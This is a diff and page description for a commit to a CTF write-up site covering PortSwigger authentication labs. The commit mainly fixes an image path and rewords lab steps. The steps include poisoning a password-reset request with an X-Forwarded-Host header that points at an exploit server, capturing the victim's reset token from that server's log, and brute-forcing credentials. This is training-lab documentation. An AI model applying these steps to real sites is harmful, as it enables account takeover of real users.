

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md, in a window 1280 px wide and 1400 px high, scrolled down 2997 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3785 px from its top, so only the background shows below that.

```diff
--- a/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/authentication-vulnerabilities.md
@@ -103,7 +103,7 @@ username=accounting&password=§bla§
 It seems that the lock has no effect if the real credentials are supplied.
 The answer with the smallest response contains the valid credentials.
 
-![no-lock](img/no-lock.png)
+![no-lock](images/no-lock.png)
 
 ## 2FA broken logic
 
@@ -144,8 +144,10 @@ Use <https://crackstation.net/> to check the hash.  --> `onceuponatime` (md5)
 In this lab we can manipulate the `X-Forwarded-Host` header to generate password
 reset links for a host we control.
 
-1. Repeater for the `POST /forgot-password` request
-1. set username to carlos
-1. add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit`
-1. Access the server log
-      `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`
+1. Use Repeater for the `POST /forgot-password` request
+1. Set username to carlos
+1. Add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit` Header
+1. Access the server log:
+        `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`
+
+## Password brute-force via password change
```
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/images/no-lock.png (added), 1 other file.
